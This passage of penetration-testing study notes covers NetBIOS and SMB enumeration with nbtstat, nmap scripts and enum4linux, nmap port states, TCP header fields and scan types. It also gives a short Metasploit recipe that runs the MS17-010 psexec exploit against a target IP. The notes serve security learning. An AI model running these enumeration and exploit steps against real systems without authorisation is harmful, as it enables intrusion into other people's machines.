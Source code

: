	2. nbtstat
		1. windows!
		2. $ nbtstat -a 192.168.18.110 (enumerate names)
		3. $ nbtstat -c (check cache)
	3. nmap:
		1. $ nmap -sV -v --script nbstat.nse 192.168.18.110 #(version enumeration)
		2. $ nmap -sU -p 137 --script nbstat.nse 192.168.18.110 #(udp scan)
3. SMB enumeration
	1. SMB:
		1. network file sharing protocol
		2. ports: TCP 445, UDP 137-138, TCP 139 (legacy)
	2. nmap:
		1. $ sudo nmap -A –p 445 192.168.18.110
		2. $ sudo nmap --script smb-os-discovery.nse 192.168.18.110
		3. $ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.18.110
		4. $ ls /usr/share/nmap/scripts | grep smb
	3. enum4linux:
		1. $ enum4linux -a 192.168.18.110

**System Hacking** 

1. Metasploit:
	1. nmap –A –sC 192.168.1.2 #( -sC nmap default scripts )
	2. msfconsole
		1. search
		2. use exploit/windows/smb/ms17_010_psexec
		3. show options
		4. set RHOSTS 192.168.1.2
		5. exploit
2. Scanning Network
	1. Port states:
		1. open - indicates that an application is listening for connections on the port. The primary goal of port scanning is to find these.
		2. closed - indicates that the probes were received but there is no application listening on the port
		3. filtered - indicates that the probes were not received, and the state could not be established.
		4. unfiltered - indicates that the probes were received but a state could not be established. In other words, a port is accessible, but Nmap is unable to determine whether it is open or closed.
		5. open|filtered - indicates that the port was filtered or open, but Nmap couldn’t establish the state
		6. closed|filtered - indicates that Nmap is unable to determine whether a port is closed or filtered
	2. TCP Header:
		1. 20-60 bytes
			1. Source port address: 16 bits, destination port address: 16 bits
			2. Sequence number: 32 bits
			3. Acknowledgement number: 32 bits
			4. HLEN: 4 bits, Reversed: 6 bits, URG/ACK/PSH/RST/SYN/FIN, Windows size: 16 bits
			5. Checksum: 16 bits, Urgent pointer: 16 bits
			6. Options and padding
	3. TCP Handshake:
		1. SYN -> SYN+ACK -> ACK
	4. Connection termination
		1. FIN -> FIN+ACK -> ACK
	5. Scan types:
		1. -sA - ACK scan
		2. -sF - FIN scan
		3. -sI - IDLE scan
		4. -sL - DNS scan (list scan)
		5. -sN - NULL scan
		6. -sO - Protocal scan
		7. -sP - Ping scan
		8. -sR - RPC scan
		9. -sS - SYN scan